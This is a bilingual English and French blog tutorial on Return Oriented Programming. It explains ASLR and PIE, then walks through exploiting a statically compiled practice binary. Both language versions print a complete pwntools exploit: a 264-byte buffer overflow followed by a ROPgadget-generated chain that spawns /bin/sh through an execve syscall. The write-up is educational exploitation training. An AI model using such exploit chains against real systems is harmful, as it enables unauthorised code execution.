






> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable [here](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :



## Pwn Road, third stop, welcome aboard!

Yesterday, the simple buffer overflow and ret2libc, today, ROP, or Return Oriented Programming, and tomorrow... Tomorrow the conquest of the world!


I left you yesterday on the ret2libc, which, seen from afar, consists in picking in the libc the functions that interest us the most. Except that this attack is not possible in the case where the program is compiled statically, and hardly feasible if the ASLR is enabled. Today we will discover the ROP that allows us to bypass these protections.

It looks more and more like the cat and mouse game, so... \
Follow the leader cat!

## ASLR and PIC details

Before we start, a little feedback on these sometimes confusing protections.

The ASLR is configured through `/proc/sys/kernel/randomize_va_space`. It can be set to 0=off, 1=on (stack and heap), 2=on (1 + .data). The value 2 being the new standard being adopted, which is already effective for the most part.

The ASLR therefore leaves a whole non-randomized attack surface. So what had to happen happened: attacks using the sections .text, .data, .got, .plt, ...

More information on the different sections and structure of an ELF here: [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

As the ASLR is not sufficient, new protections have been put in place: PIC / PIE (Position Independent Code / Executable). The mainidea is simple... How about we randomize... EVERYTHING?!

ROP works with partial or total ASLR, but is countered by the latest measure...

Following at the next countermeasure! è.é

## Presentation of the technique

Return... Oriented... Programming...

Um um... Programming... With... Return? °^°'

We're going to take advantage of the fact that the .text section of the program is still in the same place to pick up a lot of little pieces of code called gadgets, and assemble them to do our exploit. The exploit is therefore a series of addresses pointing at assembler, so in the absolute, we can do everything with it. The only limit? The gadgets that are available in the program...

Even if we "can do everything", the most common strategy remains to do as in article 1 where we generate a shellcode which, via a syscall, allows us to execute a program of our choice.

An important thing to note here: We need gadgets. Gadgets are code that doesn't move. Libraries are always relocated. So a program based on libraries will have a much smaller attack surface than a program compiled in static that would contain all the code it needs. Also, the larger the program will be and the more complex actions it'll do, the more likely you'll find interesting stuff inside. Capich? Noice!


Now, let's go more into detail about gadgets, shall we?

They must all meet a major criterion: End with a ret instruction.

It is this criterion that makes the attack possible. Indeed, when we control the instruction pointer, we will make it execute a first gadget. When it'll reach the final ret instruction, the previous saved instruction pointer will be restored the execution will continue on the stack (which we just overflowed). But the next address will be the one of the second gadget and so on.

However, if your gadget ends with a ret, but contains instructions that modify the execution flow of the program, it may break your exploit. So no `call`, no `leave`, no `double ret`, no arms, and above all: no chocolate.

Many tools are available to list the gadgets of an executable, such as ROPgadget, Ropper, XRop, ...

## Elaboration of the exploit

The studied binary is downloadable [here](vuln)

First of all, we look at what we're dealing with: x86-64, compiled in static, full ASLR. Okay!



You're used to it now, the classic one:

Understand how the program works, find the crash, then the offset!





Here again, we see that we crash on a ret... Do we control RSP? Yes! Offset? 264!



Small reminder, ret has the effect of placing what RSP points to (so the last element of the stack), in RIP. So we have RIP under our control. So... RIP!


We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:



So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:



TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`


See you soon for even more pwn!


<h2 id="fr">French version</h2>


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :



## Route du pwn, troisième  escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!


Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so...\
Follow the leader cat !

## Précisions ASLR et PIC

Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans `/proc/sys/kernel/randomize_va_space`. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .text, .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : [ELF_format](://fr.wikipedia.org/wiki/Executable_and_Linkable_Format)

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). L'idée est simple... Et si on randomisait... TOUT ?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

## Présentation de la technique

Return... Oriented... Programming...

Hum hum... Programmer... Avec des... Return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !


Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de `call`, pas de `leave`, pas de `double ret`, pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

## Elaboration de l'exploit

Le binaire étudié est téléchargable [ici](vuln)

Avant toute chose, on regarde un peu à quoi on s'attaque : x86-64, compilé en statique, full ASLR. Ok !


Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !


Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !


Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !


On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :


On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :


TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut `bash`, alors que dans notre ropchain, on avait `/bin//sh` (qui est compris comme `/bin/sh`). Mais c'est normal, car sur ma machine, `/bin/sh` est un lien symbolique qui pointe vers bash ! Mon vrai sh est `/usr/bin/sh`.

 > Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`


A très vite pour encore plus de pwn !
